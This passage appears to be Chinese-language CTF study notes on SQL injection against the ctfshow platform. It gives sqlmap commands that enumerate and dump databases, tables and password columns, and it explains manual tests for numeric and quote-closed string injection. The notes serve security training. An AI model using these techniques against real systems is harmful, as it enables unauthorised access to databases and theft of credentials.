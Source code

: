```
python sqlmap.py -u <url>  -D ctfshow_web -T ctfshow_user -columns
```

查flag：

```
python sqlmap.py -u <url>  -D ctfshow_web -T ctfshow_user -C "id,pass,username" -dump
```

## 3.post

使用post方式进行注入，可以直接用`--data="id=1"`，也可以`--method=post`来触发

查数据库：

```
python sqlmap.py -u <url> --data="id=1" -dbs
```

查表名：

```
python sqlmap.py -u <url> --data="id=1" -D ctfshow_web -tables
```

查列名：

```
python sqlmap.py -u <url>  -D ctfshow_web -T ctfshow_user -columns
```

查flag：

```
python sqlmap.py -u <url>  -D ctfshow_web -T ctfshow_user -C "id,password" --dump
```



# 2.sql 基本操作

1.判断是字符型还是数字型，使用 2-1 来判断

```
判断是数字型还是字符型：通过?id=1 and 1=2判断，如果显示不正常，说明是数字型，如果显示正常，就是字符串型，就需要进行下面的步骤继续判断。
判断是什么符号的字符型：
单引号测试：通过?id=1'观察回显
双引号测试：通过?id=1"观察回显
判断出字符型：如果哪个符号回显是报错信息，则表示是哪个符号的字符型，接着使用对应符号闭合之后进行SQL注入即可
```

2.如果是字符型，判断闭合方式，' " ')  ")

```
最终结论：如果我们在确定这是字符型注入的时候，使用双引号如果引发了报错，说明就是双引号的字符型。

假设是双引号闭合，多了一个双引号就会报错
sql语句：select * from cms where id = "33"";
```

